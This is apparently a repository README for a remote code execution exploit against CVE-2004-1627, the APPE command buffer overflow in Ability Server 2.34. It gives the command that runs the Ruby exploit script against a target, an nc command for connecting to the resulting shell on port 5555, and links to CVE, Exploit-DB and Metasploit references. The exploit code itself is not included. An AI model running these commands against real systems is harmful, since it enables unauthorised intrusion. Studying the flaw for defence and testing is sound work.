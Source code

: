 # CVE-2004-1627 | Ability Server 2.34 APPE command stack buffer overflow (RCE)
Buffer overflow in Ability Server 2.34, and possibly other versions, allows remote attackers to execute arbitrary code via a long APPE command.
 
# Usage

**Exploit**
```
ruby cve-2004-1627_exploit.rb <TARGET> <PORT>
```

**Connect**
```
nc -nv <TARGET> 5555
```


# References
- http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-1627
- https://www.exploit-db.com/exploits/592/
- https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/ftp/ability_server_stor.rb

